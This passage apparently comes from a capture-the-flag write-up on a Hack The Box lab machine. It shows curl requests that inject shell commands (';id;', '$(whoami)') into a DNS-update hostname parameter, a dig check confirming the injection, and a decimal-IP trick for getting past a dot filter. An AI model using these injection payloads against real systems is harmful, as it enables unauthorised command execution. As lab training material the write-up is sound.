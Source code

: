     
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=a.b.c.d.e.f.g.h.i' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: b.c.d.e.f.g.h.i]
    

I’ve got the list of domains from the website. I’ll try adding something to
the end of the injection:

    
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=;id;0xdf.no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [nsupdate failed]
    

That’s good confirmation that it’s using `nsupdate`, and the fact that I broke
it is a good sign that the injection is working.

### Command Injection POCs

#### whoami

I’d like to add a comment after the domain, but then it won’t pass the domain
check. I’ll switch from using `;` to end the command to using `$()` to run a
subcommand:

    
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(whoami).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    good 10.10.14.8
    

I chose `whoami` because it was more likely to work returning a single word vs
`id`. It seems to have worked. If the web process is running as www-data, then
`www-data.no-ip.htb` would resolve to my IP. It does:

    
    
    oxdf@parrot$ dig +short www-data.no-ip.htb @10.10.10.244
    10.10.14.8
    

That’s proof of command injection.

#### ping

An easier check would be to try `ping`. The only challenge is that I can’t use
`.`. That’s easily bypassed knowing that an IP is just a four-byte integer.
It’s standard to represent it as four ints 0-255 combined with `.`, but almost
all systems will handle the int value as well.
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=Change_IP_format\('Dotted%20Decimal','Decimal'\)&input=MTAuMTAuMTQuOA)
has a Change IP Format recipe that works nicely here:

![image-20210613144052430](https://0xdfimages.gitlab.io/img/image-20210613144052430.png)

Dropping that in, with `tcpdump` watching locally, I can `ping`:
